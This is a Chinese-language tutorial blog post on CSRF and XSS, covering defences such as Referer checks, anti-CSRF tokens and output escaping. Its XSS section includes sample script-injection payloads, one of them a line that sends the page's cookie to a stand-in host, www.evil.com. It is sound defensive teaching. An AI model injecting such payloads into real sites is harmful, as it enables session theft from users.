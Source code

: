 ```yaml
---
title: CSRF 与 XSS
date: 2018-08-21
tags: 网络安全
---
```


CSRF 与 XSS都为跨站式的请求攻击容易让人混淆，本文将对这两种攻击及对应防范方法进行梳理。

<!-- more -->

### CSRF (Cross-Site Request Forgery) 跨站请求伪造

攻击者盗用了用户的身份以用户的名义进行恶意请求，如发送邮件、银行转账等。

如用户 A 在 example 网站上进行转账，通过 http://example.com/withdraw?user=A&amount=100 进行转账请求并携带存储在浏览器的相关验证信息如 cookie ，服务器通过对 cookie 的验证确认用户信息完成转账。

若 A 在保持 example 网站登录时访问了恶意网站，并被引诱点击链接 http://example.com/withdraw?user=A&amount=100 ，因浏览器关于此网站的相关验证信息还没过期，该请求也携带相关验证信息对服务器进行请求，服务器通过对验证信息的确认认为用户身份没有问题也完成转账。

由此攻击者利用服务器对浏览器的信任成功盗用用户 A 的身份进行银行转账。

#### 防御

#### 1. 使用 HTTP 头部的REFERER字段

请求头中的 REFERER 字段记录了请求来源的地址，在处理敏感信息时一般将请求地址与 Referer 字段处于同一域名下，服务器可以通过对 REFERER 值判断该请求是否正常。从恶意网站中被引诱点击的请求 REFERER 值为该恶意网站，由此服务器可以拒绝此请求。
此方式简单易用，仅需要在服务器判断 REFERER 字段值即可。然而虽然 HTTP 协议规定了不可对 REFERER 字段进行修改，实际上并不能保证浏览器的具体实现，有些低级浏览器的安全漏洞也使得攻击者对 REFERER 字段进行修改。

#### 2. 使用验证码

验证码强制用户必须参与请求交互，通常情况下可以很好防止 CSRF 攻击。但出于用户体验的考虑，一个网站并不可能每个请求都需要用户输入验证码。此方法只能作为协助手段，并不能通用解决 CSRF 问题。

#### 3. 使用 Anti CSRF Token 验证

CSRF 攻击者利用了存储在浏览器的验证信息通过服务器验证，其实只要验证信息不直接存储在浏览器中即可防范。
服务器可以使用 cookie 或 Session 携带验证信息的 token ，但直接使用 cookie 或 Session 进行请求并不能通过服务器验证，而是需要客户端获取 cookie 或 Session 中 token 信息并在请求头设置验证字段发送请求。
浏览器的同源策略使得处于不同域名下的恶意网站并不能获取分析浏览器中的 cookie 或 Session 信息，从而不能设置具体的请求验证字段通过服务器验证。
此方法最为常用。

### XSS (Cross-site scripting) 跨站脚本

攻击者利用网页开始时留下的漏洞，通过巧妙的方法往网页中注入恶意代码，使用户加载和执行这些恶意代码从而达到网页攻击的作用，如修改网页内容，盗取网站 cookie 或会话信息等。

如一个网站上有留言板，将用户输入信息显示出来，若不对输入信息进行处理，攻击者便有机会往留言板写入恶意 JS 代码进行攻击。
正常用户往留言板留言：
```
Nice!
```
留言板的 HTML 代码将为：
```html
//  这是一个正常显示的留言板
<div> 
    Nice
</div>
```
恶意攻击者往留言板留言：
```html
<script>alert('you are attacked!');</script>
```
留言板的 HTML 代码将为：
```html
<!--  这是一个被攻击的留言板 -->
<div> 
    <script>alert('you are attacked!');</script>   
</div> 
```
其中的 JS 代码将会执行，浏览器弹出对话框显示 you are attacked!。这只是弹出对话框吓一下你，然而当攻击者通过留言获取网站的 cookie 信息就危险了：
```html
<script>window.open(www.evil.com?content=document.cookie);</script>
```
www.evil.com 便可得到用户在该网站的 cookie 信息了。

#### 防御

#### 1. 对输入值进行转义

其实本质就是不相信任何用户输入，不能将用户输入直接写到 HMLT DOM 结果里。若网站开发者将留言板的输入信息过滤掉<scirpt></sciprt>这个 HTML 元素，其中的 JS 代码将不会被浏览器解析危害用户了。开发者可使用以下[规则](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet)对输入值进行转义：

| 转义类型 | 转义方式 |
| ------- | --------------------------------------- |
| HTML 实体转义 | &amp; 转为  &amp;amp; <br> &lt; 转为 &amp;lt; <br> &gt; 转为 &amp;gt; <br> &quot; 转为 &amp;quot; <br> &#27; 转为 &amp;#27; <br> &#x2F; 转为 &amp;#x2F; |
| HTML 属性编码 | 除了字母，转换所有字符为 &amp;#xHH; 形式，包括空格（HH = Hex 数值）    |
| URL 编码     | URL编码应该只用于参数部分，而不是整个URL或URL路径部分。<br> 标准的编码可参考 http://www.w3schools.com/tags/ref_urlencode.asp    |
| JavaScript 编码  | 除了字母，转换所有字符为 \uXXXX 的 unicode 转义形式（X = 整数）     |
| CSS Hex 编码   |  CSS 转义支持 \XX 和 \XXXXXX 的形式。如果下一个字符会继续转义序列，那使用两个字符的转义形式可能会出现问题。<br> 有两种解决办法（a）在 CSS 转义后添加一个空格（会被 CSS 解析器忽略）（b）使用0填充以实现完整的 CSS 转义格式。 |

如用户输入内容是：
```html
<script>alert('attacked!');</script>
```
转义后的字符串是：
```html
&lt;script&gt;alert(&quot;attacked!&quot;)&lt;/script&gt;
```

浏览器遇到 <script></script> 字符串会对其进行 JS 代码解析，但遇到 ```&lt;&gt;``` 这样的字符就不会当做 JS 代码执行而仅作为普通字符串打印，由此可以防范代码注入。
当今的主流前端框架如 [Angular](https://angular.cn/guide/security) 等已支持对输入值的无公害处理以防范 XSS ，使用这些框架我们则不需要自己对输入信息进行转义。

### 总结
可以说 XSS 利用的是用户对指定网站的信任; CSRF 利用的是网站对用户网页浏览器的信任。
使用对应的手段可以防御一定的网络攻击，但作为开发者，我们也只能尽可能提高网络攻击的难度，没有一定安全的网络。只有进一步提高攻击者的门槛使得网络逼近绝对安全的位置。